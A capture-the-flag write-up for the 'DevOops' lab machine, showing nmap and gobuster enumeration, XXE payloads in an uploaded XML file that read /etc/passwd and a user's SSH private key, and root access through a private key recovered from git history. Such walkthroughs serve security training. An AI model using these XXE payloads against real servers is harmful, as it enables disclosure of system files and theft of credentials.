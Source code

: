 ```yaml
---
title: DevOops
tags: linux
---
```


![image](assets/79370115-1d91d900-7f20-11ea-8823-4678d93e0034.png)

## Overview

Devoops is an Ubuntu box running Gunicorn that was vulnerable to an XXE (XML External Entity) attack which lead to the disclosure of roosa's private ssh key. Using this key I was able to log in via ssh as roosa. While browsing Roosa's home folder I came across a local git repo which contained the ssh private key for root in the commit history which was used to ssh into the box as root.

## Enumeration

**Software**
* Ubuntu 16.04.4 LTS
* OpenSSH 7.2p2 Ubuntu 4ubuntu2.4
* Gunicorn 19.7.1
* git version 2.7.4

**Port Scan**
```
nmap -vv -Pn -sT -A --osscan-guess -p- -oN /mnt/data/boxes/devoops/_full_tcp_nmap.txt
```
* 22/tcp - ssh
* 5000/tcp - http

**Directory/File Brute Force**
```
gobuster dir -u http://10.10.10.91:5000 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 30
```
* /upload
* /feed

## Steps (user)

The nmap results came back with two ports: 22 (ssh) and 5000 which I was not familiar with. The scan listed port 5000 as an http server running Gunicorn. I did a quick search and determined that [Gunicorn](https://gunicorn.org/) "...is a Python WSGI HTTP Server for UNIX" 

Browsing to http://10.10.10.91:5000 shows an Under Construction page and with mention of an application called BlogFeeder.

![image](assets/81110147-28b9a280-8ee9-11ea-8cee-7bdf641b28d3.png)

Browsing to http://10.10.10.91:5000/feed just showed the image from the main page but http://10.10.10.91:5000/upload showed an upload form which was much more useful. 

![image](assets/81111390-ff017b00-8eea-11ea-8c67-e37724943662.png)

The title of the page was "Send feed with XML" and referenced the XML Elements "Author, Subject, Content". This hinted that XML files could be uploaded. I did an internet search to confirm the [basic structure of the XML file](https://www.w3schools.com/xml/xml_elements.asp). I created a file with the XML elements mentioned on the page and saved it as test.xml

```
<test>
  <Author>author</Author>
  <Subject>subject</Subject>
  <Content>content</Content>
</test> 
```
After test.xml was uploaded I received a "Processed Blogpost" message which was encouraging.

![image](assets/81112416-9d421080-8eec-11ea-815f-db0942b89289.png)

Doing some research on XML exploits I came across an OWASP article explaining [XML External Entity (XXE) Processing](https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing). I updated the test.xml file to include the sample code for disclosing targeted files. 

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>

<test>
  <Author>&xxe;</Author>
  <Subject>subject</Subject>
  <Content>content</Content>
</test
```

After uploading the updated test.xml file I was able to successfully read /etc/passwd. This also implied that I could arbitrarily read other files this account had access to.

![image](assets/81113555-6d940800-8eee-11ea-8cca-5e5307c55de8.png)

Reviewing the entries in the /etc/passwd file showed an account named roosa. I also saw this user's home folder path referenced after each successful XML upload.

```
Content: content URL for later reference: /uploads/test.xml File path: /home/roosa/deploy/src
```

I modified test.xml again to check for an ssh private key in Roosa's home folder and she did.

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///home/roosa/.ssh/id_rsa" >]>

<test>
  <Author>&xxe;</Author>
  <Subject>subject</Subject>
  <Content>content</Content>
</test
```

![image](assets/81114359-e5aefd80-8eef-11ea-809e-83114d8e1540.png)

I copied the part of the output pertaining to the private key, pasted it to a file on my local system called id_rsa, and ran chmod to set the correct permissions.

```
chmod 600 id_rsa
```

I was then able to use the private key to ssh into the system as roosa.

```
ssh -i id_rsa roosa@10.10.10.91
```

![image](assets/81114657-708ff800-8ef0-11ea-994e-bbb1e33c1d15.png)

## Steps (root/system)

While browsing roosa's home folder I came across /work/blogfeed which caught my attention because the name was referenced on the main page of the website.  Inside this folder was another folder called .git which is the "directory at the root of the working tree" according to the [gitrepository documentation](https://git-scm.com/docs/gitrepository-layout).

![image](assets/81115978-9e763c00-8ef2-11ea-9a89-438d8f49273e.png)

As a test I ran 'git status' and recieved the following output:

![image](assets/81116822-0b3e0600-8ef4-11ea-8d7d-7aa6a527dfdb.png)

I then ran git log -p to review previous commits. Reviewing the information shows the comment "reverted accidental commit with proper key" followed by the key that was removed.

![image](assets/81116447-5f94b600-8ef3-11ea-808a-22141e1d4aec.png)

Following the same procedure as before; I copied the 'removed' private key to a file called id_rsa2, set the correct permissions, and attempted log in with root using the new private key.

```
ssh -i id_rsa2 root@10.10.10.91
```

login was successful

![image](assets/81116782-f82b3600-8ef3-11ea-998d-9f7bc2e5b3cc.png)
